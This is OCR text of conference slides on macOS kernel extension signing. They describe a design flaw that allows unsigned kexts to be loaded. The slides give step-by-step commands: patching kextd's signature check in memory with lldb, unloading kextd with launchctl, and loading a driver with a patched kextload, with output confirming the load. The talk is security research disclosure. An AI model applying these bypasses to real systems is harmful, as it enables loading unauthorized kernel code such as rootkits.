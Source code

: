 SIGNED KEXTS

#RSAC

starting on os x mavericks, kexts must be signed

blocking an unsigned kext

kernel-mode user-mode

similar to windows, this aims to prevent unauthorized code from being loaded
into ring-O

signed kext

unsigned kext

SIGNED KEXT BYPASS
abusing a design flaw to load an unsigned kext

#RSAC
http://reverse.put.as

//check signature sigResult = checkKextSignature(kext);
//invalid signature? if(sigResult != 0) {
//error msg OSKextLogCFString("ERROR: \ invalid signature, will not load");
//bail goto finish; }
//load kext OSKextLoadWithOptions(kext);
user-mode signature verification

# lldb -p <pid of kextd> (lldb) disassemble --start-address <addr>
0x10087c0df: mov %eax, %ebx ... 0x10087c0ef: ret
(lldb) memory write -s 2 <addr> 0xc031
(lldb) disassemble --start-address <addr> 0x10087c0df: xorl %eax, %eax ... 0x10087c0ef: ret
 sh-3.2# kextload unsigned.kext
sh-3.2# kextstat | grep -i unsigned 0xffffff7f81bb0000 com.synack.unsigned
patch & unsigned kext loading

SIGNED KEXT BYPASS

#RSAC

abusing a design flaw to load an unsigned kext

download patch & recompile kext_tools kextload

loadKextsIntoKernel(KextloadArgs * toolArgs) {
//sigResult = checkKextSignature(theKext, 0x1, earlyBoot);
//always OK! sigResult = 0; }
patched kextload

//unload kext daemon # launchctl unload /System/Library/LaunchDaemons/com.apple.kextd.plist

//load (unsigned) driver with custom kext_load # ./patchedKextload -v unsigned.kext
Can't contact kextd; attempting to load directly into kernel

//profit :) # kextstat | grep -i unsigned
138 0 0xffffff7f82eeb000 com.synack.unsigned
